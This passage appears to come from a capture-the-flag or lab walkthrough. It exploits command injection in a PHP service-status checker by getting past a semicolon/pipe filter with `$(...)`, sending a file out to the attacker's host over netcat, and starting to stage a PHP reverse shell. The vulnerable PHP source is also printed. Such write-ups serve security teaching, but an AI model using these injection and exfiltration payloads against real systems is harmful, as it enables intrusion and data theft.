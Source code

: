 After running the script I managed to get the admin's password.

![password](8.png)

Now let's login and go to the `Administration` page.

![Administration page](9.png)

This is a services status checker. I directly went for a command injection but it got detected.

![command injection detected](10.png)

I tried a different payload and it worked: `$(id)`

![id](11.png)

With that I tried to read the `Administration.php` file but didn't show as expected so I just copied it to my machines using the following command:

On my machine I setup a listener `nc -lvnp 1234 > administration.php`, this writes everything it get's to that file.

The command injection is `$(nc 10.9.76.240 1234 < administration.php)` which connects to my listener and feed the administration.php file to it.

```php
<?php
if (isset($_POST['submit'])) {
    $service = $_POST['service'];
    if(strpos($service, ';') !== false || strpos($service, '|') !== false){
        echo "<pre>";
        echo "<p>Command injection detected, please provide a service.</p>";
        echo "</pre>";
    }
    else {
    $cmd = shell_exec("/bin/bash /var/www/html/service_status.sh $service");

    echo "<pre>";
    echo "$cmd";
    echo "</pre>";
    }
}
?>
```

Here we can see the filter put in place. The code checks for semicolon `;` and pipe `|` in the input to determine whether it's a command injection or not. Poor and lazy filter in my opinion.

## **Foothold**

To get a shell I used the last technique to write a php reverse shell on the target.

On my machine i setup a listener and gave it the php reverse shell:

```bash
nc -lvnp 1234 < php-reverse-shell.php
```
